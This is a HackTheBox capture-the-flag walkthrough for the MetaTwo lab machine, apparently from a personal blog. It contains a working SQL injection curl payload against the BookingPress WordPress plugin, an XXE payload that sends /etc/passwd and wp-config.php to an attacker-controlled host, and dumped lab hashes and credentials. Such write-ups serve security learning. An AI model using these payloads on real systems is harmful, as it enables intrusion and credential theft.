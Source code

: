 ```yaml
---

title: MetaTwo
date: 2022-12-30 18:32:00 -0500
categories: [Walkthrough, Hackthebox, CTF]
tags: [linux, Wordpress, xmlrpc, boookingpress, wordpress, CVE-2021-29447]
---
```


Starting off with nmap - `nmap -Pn -p- metatwo.htb -vvvv -oN nmap_initial` 

We find a port 80 webserver trying to redirecto to metapress.htb lets add that to /etc/hosts and check it.

find a login page @ http://metapress.htb/wp-login.php.

we can start off by checking the site with `wpscan`

- `wpscan -e ap --api-token api --url http://metapress.htb -o ~/Documents/htb/MetaTwo/wpscan.2 --plugins-detection mixed`

# Wordpress bookingpress 1.0.11 Unauthenticated SQL Injection

we find a vulnerability in the `/events/` which is the bookingpress plugin. 

- https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357

Extract the nonce from the source code of the events page and craft a curl command

- `curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \ --data 'action=bookingpress_front_get_category_services&_wpnonce=3392862f44&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'`

This works and we can also use <a href="https://github.com/hadrian3689/wp_bookingpress_1.0.11/blob/main/sqli.py">this exploit</a> to dump the user credentials.

```
CVE-2022-0739 WordPress BookingPress Plugin< 1.0.11 Unauthenticated SQL Injection

Credentials are:
--------------------------------------------------
Username: admin
Email: admin@metapress.htb
Password: $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
--------------------------------------------------
Username: manager
Email: manager@metapress.htb
Password: $P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70
--------------------------------------------------
```

Running rockyou for an eternity againse the admin didnt give us anything, and running aginst manager gets us `partylikearockstar` 

# WordPress version 5.6.2 Exploitation

<a href="https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/">Here</a> is a great article explaining the process we will use in the XXE vuln. Basically now that we have credentials we can create a wave file with malicious XML and upload the wave and wordpress will read the metadata and send us back what we want it to read no the system.

We start by generating a WAVE file in bash that contains a payload calling back to the evil.dtd we will setup on attacker

- `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.123:6969/evil.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav`

then we create evil.dtd

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.123:6969/?p=%file;'>" >
```

And start a webserver in the dir. once we upload we should get a callback with the base64 encoded file which we can decode. So this does work, but /etc/passwd and we find a user jnelson. Unfortunately unable to get the user ssh file. So going to look for the wp-config.php file for more information. `/etc/nginx/sites-enabled/default` tells us the blog is in `/var/www/metapress.htb/blog` so lets edit the dtd file to display wp-config.php.

We do find some ftp credentials in here lets check that out

```
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
```

And lets upload a reverse shell. Oh no permissions so looking around we find a php-mailer and checknig inside are jnelson's ssh credentials. 

```
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

# Linux Privesc

Pretty simple, the use has a file with root ssh passwords. cat ssh then su to root
